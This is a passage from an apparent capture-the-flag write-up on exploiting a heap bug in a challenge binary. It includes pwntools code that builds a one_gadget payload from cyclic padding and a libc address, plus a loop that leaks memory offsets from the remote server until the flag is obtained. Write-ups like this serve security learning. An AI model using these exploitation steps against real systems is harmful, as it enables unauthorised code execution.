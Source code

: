 welp, that fails because free is immediately called when we gave the input. notice that the string bash try execute is our payload padding. we can't also just pad it with `/bin/sh` because of null bytes. so let's try `one_gadgets`.

```python
one_gadgets = [0x4f2a5, 0x4f302, 0x10a2fc]
payload = cyclic(0x10) + p64(libc.address + one_gadgets[1])
io.sendlineafter(b'command:', payload)
```

<figure><img src="../../.gitbook/assets/image (91).png" alt="" width="563"><figcaption></figcaption></figure>

and it works! but ... fails remotely&#x20;

turns out the remote server has different offsets, since the organizer has no discord and they only way to contact is through email, I opted to just fuzz the server&#x20;

```python
for i in range(0x0, 0x3000, 0x8):
    leak = int(read(i), 16)
    log.success('leak[%#x]: %#x', i, leak)
```

{% hint style="info" %}
remember to fuzz at the correct stage of the exploit as different stages will have different heap state thus resulting in a different offset as well.
{% endhint %}

with trials and error, I found the correct offset and got the flag!

<figure><img src="../../.gitbook/assets/image (92).png" alt="" width="521"><figcaption></figcaption></figure>
